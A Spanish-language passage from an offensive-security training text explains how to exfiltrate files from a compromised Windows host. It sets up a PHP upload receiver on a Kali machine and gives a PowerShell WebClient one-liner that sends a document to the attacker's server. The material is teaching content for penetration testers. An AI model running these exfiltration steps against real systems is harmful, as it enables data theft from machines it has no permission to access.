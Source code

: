 <br />

#### 2.4. Windows Uploads Using Windows Scripting Languages.

En ciertos escenarios, es posible que necesitemos filtrar datos de una red de destino utilizando un cliente de Windows. Esto puede ser complejo ya que los servidores TFTP, FTP y HTTP estándar rara vez están habilitados en Windows de manera predeterminada.

Afortunadamente, si se permite el tráfico HTTP saliente, podemos usar la clase _System.Net.WebClient_ PowerShell para cargar datos en nuestra máquina Kali a través de una solicitud HTTP POST.

Para hacer esto, podemos crear el siguiente script PHP y guardarlo como upload.php en nuestro directorio webroot de Kali, /var/www/html :

```
<?php
$uploaddir = '/var/www/uploads/';

$uploadfile = $uploaddir . $_FILES['file']['name'];

move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)
?>
```


El código PHP del Listado 28 procesará una solicitud de carga de archivo entrante y guardará los datos transferidos en el directorio /var/www/uploads/ .

A continuación, debemos crear la carpeta de subidas y modificar sus permisos, otorgando al usuario _www-data_ la propiedad y los permisos de escritura posteriores:

```
kali@kali:/var/www$ sudo mkdir /var/www/uploads

kali@kali:/var/www$ ps -ef | grep apache
root      1946     1  0 21:39 ?        00:00:00 /usr/sbin/apache2 -k start
www-data  1947  1946  0 21:39 ?        00:00:00 /usr/sbin/apache2 -k start

kali@kali:/var/www$ sudo chown www-data: /var/www/uploads

kali@kali:/var/www$ ls -la
total 16
drwxr-xr-x  4 root     root     4096 Feb  2 00:33 .
drwxr-xr-x 13 root     root     4096 Sep 20 14:57 ..
drwxr-xr-x  2 root     root     4096 Feb  2 00:33 html
drwxr-xr-x  2 www-data www-data 4096 Feb  2 00:33 uploads
```

Tenga en cuenta que esto permitiría que cualquier persona que interactúe con uploads.php cargue archivos en nuestra máquina virtual Kali.

Con Apache y el script PHP listos para recibir nuestro archivo, nos trasladamos al host de Windows comprometido e invocamos el método UploadFile de la clase System.Net.WebClient para cargar el documento que queremos exfiltrar, en este caso, un archivo llamado importante. docx :

```
C:\Users\Offsec> powershell (New-Object System.Net.WebClient).UploadFile('http://10.11.0.4/upload.php', 'important.docx')
```
